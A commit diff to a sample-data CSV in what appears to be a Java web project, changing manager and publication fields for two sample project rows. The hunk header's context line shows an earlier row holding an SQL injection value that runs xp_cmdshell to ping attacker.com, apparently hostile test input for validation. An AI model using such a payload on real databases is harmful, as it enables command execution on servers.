

Before and after one commit to MML9796/Acme-Starters-B, a CSV file: src/main/resources/WEB-INF/data/sample/batch-01/project.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Cambios sample

```diff
--- a/src/main/resources/WEB-INF/data/sample/batch-01/project.csv
+++ b/src/main/resources/WEB-INF/data/sample/batch-01/project.csv
@@ -49,4 +49,4 @@ project-43,example,example,'; EXEC xp_cmdshell('ping attacker.com');--,2025/09/0
 # moments,"","","","","","",""
-project-44,example,example,example,2025/01/01 00:01,2026/01/01 00:01,true,manager-01
-project-45,example,example,example,2200/12/31 23:58,2200/12/31 23:59,true,manager-01
+project-44,exampleNoPublicado,manager2,example,2025/01/01 00:01,2026/01/01 00:01,true,manager-02
+project-45,examplePublicado,manager2,example,2200/12/31 23:58,2200/12/31 23:59,false,manager-02
 # draft-mode,"","","","","","",""
```
Also changed, not shown: 47 other files.
